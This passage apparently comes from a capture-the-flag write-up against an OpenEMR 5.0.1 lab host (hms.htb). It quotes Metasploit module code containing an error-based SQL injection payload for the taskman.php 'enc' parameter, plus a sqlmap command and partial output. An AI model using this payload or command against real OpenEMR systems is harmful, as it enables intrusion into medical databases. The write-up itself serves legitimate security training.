 In metasploit you can use the `edit` command to open your default editor on
the source code of the module.
By doing that I read the code of the msf module and saw how to detect openEMR
version with method `openemr_version`:

```ruby
 def openemr_version
    res = send_request_cgi(
      'method' => 'GET',
      'uri' => normalize_uri(uri, 'admin.php')
    )
    vprint_status("admin.php response code: #{res.code}")
    document = Nokogiri::HTML(res.body)
    document.css('tr')[1].css('td')[3].text
  rescue StandardError
    ''
  end
```

Let's just go to http://hms.htb/admin.php to check the version installed:

We have exactly 5.0.1 (3).

Now by reading `get_response` method we know which endpoint is requested and
which parameter is vulnerable.

```ruby
  def get_response(payload)
    response = send_request_cgi(
      'method' => 'GET',
      'uri' => normalize_uri(uri, 'interface', 'forms', 'eye_mag', 'taskman.php'),
      'vars_get' => {
        'action' => 'make_task',
        'from_id' => '1',
        'to_id' => '1',
        'pid' => '1',
        'doc_type' => '1',
        'doc_id' => '1',
        'enc' => "1' and updatexml(1,concat(0x7e, (#{payload})),0) or '"
      }
    )
    response
  end
```

Before dumping anything we can verify manually the URL:

Fine, we can now fire [sqlmap][sqlmap], retrieve DBMS banner:

```
$ sqlmap -u 'http://hms.htb/interface/forms/eye_mag/taskman.php?action=make_task&from_id=1&to_id=1&pid=1&doc_type=1&doc_id=1&enc=1' -p enc -b --random-agent
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.4.4#stable}
|_ -| . [.]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 21:51:36 /2020-07-14/

[21:51:36] [INFO] fetched random HTTP User-Agent header value 'Opera/8.51 (X11; Linux i686; U; en)' from file '/opt/sqlmap/data/txt/user-agents.txt'
[21:51:37] [INFO] testing connection to the target URL
```
